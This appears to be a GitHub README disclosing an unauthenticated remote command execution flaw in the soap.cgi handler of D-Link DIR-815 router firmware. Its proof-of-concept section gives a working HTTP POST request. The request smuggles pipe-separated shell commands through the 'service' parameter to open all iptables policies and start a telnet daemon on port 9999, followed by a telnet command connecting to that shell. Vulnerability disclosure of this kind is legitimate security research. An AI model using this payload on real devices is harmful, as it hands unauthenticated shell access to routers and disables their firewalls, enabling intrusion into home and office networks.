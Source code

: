 # dir-815
Exploit Author: yangchunyu@whu.edu.cn

Vendor: D-Link

Firmware: dir815_v1.01SSb08.bin

I found unauthenticated remote code execution vulnerability in soapcgi_main function of cgibin binary.

On the /soap.cgi HTTP POST message on 49152 port, with the service GET parameter, the unauthenticated remote attacker can execute the shell command.

The similar vulnerability already exists with CVE-2018-6530&CVE-2018-20114.

![image](https://github.com/WhereisRain/dir-815/blob/main/somecode.jpg)

With | string, the device can be exploited, too.

# poc
nc 192.168.0.1 49152
<br>POST /soap.cgi?service=|iptables -P INPUT ACCEPT|iptables -P FORWARD ACCEPT|iptables -P OUTPUT ACCEPT|iptables -t nat -P PREROUTING ACCEPT|iptables -t nat -P OUTPUT ACCEPT|iptables -t nat -P POSTROUTING ACCEPT|telnetd -p 9999| HTTP/1.1
<br>Host: 192.168.0.1:49152
<br>Accept-Encoding: identity
<br>Content-Length: 16
<br>SOAPAction: "whatever-serviceType#whatever-action"
<br>Content-Type: text/xml

whatever content...

telnet 192.168.0.1 9999
